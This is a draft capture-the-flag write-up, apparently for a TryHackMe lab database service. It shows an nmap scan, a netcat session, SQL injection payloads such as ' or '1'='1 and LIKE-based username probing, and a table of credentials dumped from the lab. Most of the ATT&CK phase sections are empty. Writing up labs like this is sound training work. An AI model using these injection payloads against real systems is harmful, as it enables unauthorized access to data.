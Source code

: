```yaml
---
title: "Lightroom"
date: 2025-01-18T09:36:24+01:00
draft: true
hidden: false
tags:
    - ctf
    - writeup
    - tryhackme
summary: ""
---
```


|Revised Date | Author | Comment |
| ----------- | ------ | ------- |
| 18.01.2025  | Roger Johnsen | Article added |

## Introduction

>_I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc 10.10.199.201 1337
You can use the username smokey in order to get started._
>
>_Note: Please allow the service 2 - 3 minutes to fully start before connecting to it._

--- 

## Solution

### Reconnaissance

| ID | Technique | Comment |
| --- | ---------------------- | ------- | 
| T1595.001 | Active Scanning: Scanning IP Blocks | | |

```bash
nmap -sS -Pn -p- 10.10.199.201 -oN scan.txt

# Nmap 7.94SVN scan initiated Sat Jan 18 12:34:04 2025 as: /usr/lib/nmap/nmap --privileged -sS -Pn -p- -oN scan.txt 10.10.199.201
Nmap scan report for 10.10.199.201
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

### Resource Development

| ID | Technique | Comment |
| --- | ---------------------- | ------- | 
| | | |

### Initial Access

| ID | Technique | Comment |
| --- | ---------------------- | ------- | 
| T1190 | Exploit Public-Facing Application | | |


```bash
nc 10.10.199.201 1337

Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Initial prodding of the login prompt reveals that 

- If username exists, it returns and displays the associated password
- The prompt hints at database, hence and thus, it's most likely SQL injection at hand here
- Inserting a single quotation mark, ```'```, returns an SQL error
- Input filtering is in place. 

```bash
nc 10.10.199.201 1337
Welcome to the Light database!

Please enter your username: 
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'a%
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'x%
Username not found.
Please enter your username:
```

Further prodding using the following payloads:

| Payload | Result | 
| ------- | ------ |
| ```' or '1'='1``` | Returns a different password than for "smokey" |
| ```' or username like 'a%``` | Returns the same password as above mentioned "OR" statement |
| ```' or username like 'x%``` | No user founds. Verification that I have guessed the correct column and that there are no users starting with "x" | 



#### Enumerated users

| Username | Password |
| -------- | -------- |
| alice | tF8tj2o94WE4LKC |
| hazel | EcSuU35WlVipjXG |
| ralph | YO1U9O1m52aJImA | 
| smokey | vYQ5ngPpw8AdUmL |
| steve | WObjufHX1foR8d7 |
| michael | 7DV4dwA0g5FacRe |
| john | e74tqwRh2oApPo6 |
| rob | yAn4fPaF2qpCKpR |

{{% notice style="note" title="There may be pirates" icon="info" %}}
It is all about the boxes.
{{% /notice %}}

### Execution

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Persistence

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Privilege Escalation

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Defense Evasion

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Credential Access

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Discovery

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Lateral Movement

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Collection

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Command and Control

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Exfiltration

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

### Impact

| MITRE ATT&CK Technique | Comment |
| ---------------------- | ------- |
| | | 

